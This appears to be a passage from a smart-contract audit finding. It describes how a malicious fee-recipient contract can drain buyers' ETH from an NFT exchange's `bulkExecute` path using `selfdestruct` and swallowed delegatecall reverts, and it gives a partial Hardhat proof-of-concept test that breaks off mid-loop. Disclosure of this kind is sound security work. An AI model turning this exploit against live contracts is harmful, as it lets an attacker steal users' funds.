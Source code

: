 ```
```

After the fee recipient drains the rest of the 4 ETH funds of the Exchange contract (the buyers funds). They need to transfer a portion back (0.9 ETH) to the Exchange contract in order for the `_executeFundsTransfer` to not revert and be able to send funds (0.9 ETH) to the seller. This can be done using the `selfdestruct` opcode

After that, the `_execute` function will continue and exit normally.<br>
`bulkExecute` will continue to the next order and call `_execute` which will revert.<br>
Because `bulkExecute` delegatecalls `_execute` and continues even after revert, the function `bulkExecute` will complete its execution without any errors and all the buyers ETH funds will be lost and nothing will be refunded.

### Hardhat Proof of Concept

Add the following test to `execution.test.ts`:
```
describe.only('hack', async () => {
      let executions: any[];
      let value: BigNumber;
      beforeEach(async () => {
        await updateBalances();
        const _executions = [];
        value = BigNumber.from(0);
        // deploy MockFeeReceipient
        let contractFactory = await (hre as any).ethers.getContractFactory(
          "MockFeeReceipient",
          {},
        );
        let contractMockFeeReceipient = await contractFactory.deploy(alice.address,price);
        await contractMockFeeReceipient.deployed();
        //generate alice and bob orders. alice fee recipient is MockFeeReceipient. 10% cut
        tokenId += 1;
        await mockERC721.mint(alice.address, tokenId);
        sell = generateOrder(alice, {
          side: Side.Sell,
          tokenId,
          paymentToken: ZERO_ADDRESS,
          fees: [ 
            {
              rate: 1000,
              recipient: contractMockFeeReceipient.address,
            }
          ],
        });
        buy = generateOrder(bob, { 
          side: Side.Buy,
          tokenId,
          paymentToken: ZERO_ADDRESS});
        _executions.push({
            sell: await sell.packNoOracleSig(),
            buy: await buy.packNoSigs(),
        });
        // create 3 more executions
        tokenId += 1;
        for (let i = tokenId; i < tokenId + 3; i++) {
          await mockERC721.mint(thirdParty.address, i);
          const _sell = generateOrder(thirdParty, {
            side: Side.Sell,
            tokenId: i,
            paymentToken: ZERO_ADDRESS,
          });
          const _buy = generateOrder(bob, {
            side: Side.Buy,
```